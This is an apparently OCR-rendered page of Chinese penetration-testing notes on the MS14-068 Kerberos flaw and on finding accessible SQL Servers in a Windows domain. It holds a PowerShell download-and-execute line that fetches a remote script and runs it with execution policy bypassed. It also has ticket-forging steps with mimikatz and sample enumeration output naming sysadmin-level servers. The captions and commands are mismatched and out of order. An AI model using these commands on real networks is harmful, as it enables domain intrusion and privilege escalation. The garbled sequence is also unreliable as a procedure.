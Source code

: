MS14-068 过程：  

```
net use k: \pentest.comc$
```

```
Kerberos工具包PyKEK
http://adsecurity.org/?p=676

深入解读MS14-068漏洞
http://www.freebuf.com/vuls/56081.html

Kerberos安全漏洞
http://adsecurity.org/?p=541
```

产生缓存的票据, 在当前 Kali 下生成之后再放到域用户机器中  

利用 mimikatz 工具将得到的 TGT_domainuser@SERVER.COM.ccache 写入内存，创建缓存证书：

```
powershell -exec bypass -Command "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PyroTek3/PowerShell-AD-Recon/master/Discover-PSMSSQLServers'); Discover-PSMSSQLServers"
```

klist 查看

```
扫描SQL Server脚本：
https://github.com/nullbind/Powershellery/tree/master/Stable-ish/MSSQL
```

dir k:

相关资料:

```
Import-Module .Get-SQLServerAccess.psm1
PS C:Get-SqlServer-Escalate-CheckAccess 
[*] ---------------------------------------------------------------------- 
[*] Start Time: 04/01/2014 10:00:00 
[*] Domain: mydomain.com 
[*] DC: dc1.mydomain.com [*] Getting list of SQL Server instances from DC as mydomainmyuser... 
[*] 5 SQL Server instances found in LDAP. 
[*] Attempting to login into 5 SQL Server instances as mydomainmyuser... 
[*] ---------------------------------------------------------------------- 
[-] Failed   - server1.mydomain.com is not responding to pings 
[-] Failed   - server2.mydomain.com (192.168.1.102) is up, but authentication/query failed 
[+] SUCCESS! - server3.mydomain.com,1433 (192.168.1.103) - Sysadmin: No - SvcIsDA: No  
[+] SUCCESS! - server3.mydomain.comSQLEXPRESS (192.168.1.103) - Sysadmin: No - SvcIsDA: No 
[+] SUCCESS! - server4.mydomain.comAppData (192.168.1.104) - Sysadmin: Yes - SvcIsDA: Yes              
[*] ---------------------------------------------------------------------- 
[*] 3 of 5 SQL Server instances could be accessed.         
[*] End Time: 04/01/2014 10:02:00       
[*] Total Time: 00:02:00 
[*] ----------------------------------------------------------------------
```
